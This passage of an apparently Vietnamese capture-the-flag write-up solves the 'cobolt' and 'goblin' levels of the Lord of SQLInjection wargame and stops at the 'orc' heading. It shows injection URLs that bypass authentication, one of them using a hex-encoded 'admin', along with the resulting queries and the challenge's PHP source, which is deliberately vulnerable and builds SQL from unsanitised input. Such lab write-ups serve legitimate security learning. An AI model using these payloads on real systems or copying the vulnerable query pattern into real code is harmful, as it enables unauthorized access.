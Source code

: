 Link solve chall: https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin&pw=123%27)%20or%20id=%27admin%27%20--%20-

```
query : select id from prob_cobolt where id='admin' and pw=md5('123') or id='admin' -- -')

COBOLT Clear!
http://www.wechall.net
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

## goblin

Link solve chall: https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=123%20OR%20id=0x61646d696e

0x61646d696e là dạng hexa của **admin**

```
query : select id from prob_goblin where id='guest' and no=123 OR id=0x61646d696e

Hello admin
GOBLIN Clear!
http://www.wechall.net
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

## orc
